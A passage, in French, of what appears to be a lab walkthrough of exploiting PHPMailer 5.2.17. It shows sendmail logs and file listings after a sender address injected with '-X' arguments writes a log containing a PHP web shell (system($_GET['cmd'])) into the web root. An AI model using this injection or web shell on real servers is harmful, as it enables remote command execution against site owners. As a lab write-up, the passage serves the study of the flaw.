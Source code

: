 Aussitôt le fichier est créé mais il est vide :  

```plain
-rw-r--r--    ? 33       33              0 Jan 13 08:22 /www/phpcode.php
```

Notez aussi le timestamp sur le fichier : pour une raison que j'ignore il est une heure dans le futur. Vraisemblablement *sendmail* s'en sert pour savoir où il en est.  

Plus tard le fichier a gagné du contenu :  

```plain
-rw-r--r--    ? 33       33            609 Jan 13 08:25 /www/phpcode.php
```

A ce stade c'est déjà gagné :  

```plain
12964 >>> some"@email.com... Unbalanced '"' 
12964 <<< To: Donkey <admin@dockerdonkey.com> 
12964 <<< Subject: Message from zz<?php system($_GET['cmd']); ?>zz_name 
12964 <<< X-PHP-Originating-Script: 0:class.phpmailer.php 
12964 <<< Date: Thu, 13 Jan 2022 07:20:24 +0000 
12964 <<< From: Docker Donkey Server <"attacker\" -oQ/tmp/ -X/www/phpcode.php  some"@email.com> 
12964 <<< Message-ID: <0acccfff72a67c6805d080b6d6f5ab8f@192.168.101.132> 
12964 <<< X-Mailer: PHPMailer 5.2.17 (https://github.com/PHPMailer/PHPMailer) 
12964 <<< MIME-Version: 1.0 
12964 <<< Content-Type: text/plain; charset=iso-8859-1 
12964 <<<
```

Si on attend encore le message fait aussi son apparition :  

```plain
-rw-r--r--    ? 33       33           1675 Jan 13 08:27 /www/phpcode.php
```

```plain
12964 <<< zz<?php system($_GET['cmd']); ?>zz_message 
12964 <<<  
12964 <<< [EOF] 
12964 === CONNECT [127.0.0.1] 
12964 <<< 220 12081bd067cc Python SMTP proxy version 0.2 
12964 >>> EHLO 12081bd067cc 
12964 <<< 502 Error: command "EHLO" not implemented 
12964 >>> HELO 12081bd067cc 
12964 <<< 250 12081bd067cc 
12964 >>> MAIL From:<attacker@12081bd067cc> 
12964 <<< 250 Ok 
12964 >>> RCPT To:<some"@email.com"@12081bd067cc> 
12964 <<< 250 Ok 
12964 >>> DATA 
12964 <<< 354 End data with <CR><LF>.<CR><LF> 
12964 >>> Received: (from www-data@localhost) 
12964 >>>       by 12081bd067cc (8.14.4/8.14.4/Submit) id 20D7P4U8012964 
12964 >>>       for some"@email.com; Thu, 13 Jan 2022 07:25:04 GMT 
12964 >>> X-Authentication-Warning: 12081bd067cc: www-data set sender to attacker\ using -f 
12964 >>> X-Authentication-Warning: 12081bd067cc: Processed from queue /tmp/ 
12964 >>> To: Donkey <admin@dockerdonkey.com> 
12964 >>> Subject: Message from zz<?php system($_GET['cmd']); ?>zz_name 
12964 >>> X-PHP-Originating-Script: 0:class.phpmailer.php 
12964 >>> Date: Thu, 13 Jan 2022 07:20:24 +0000
```
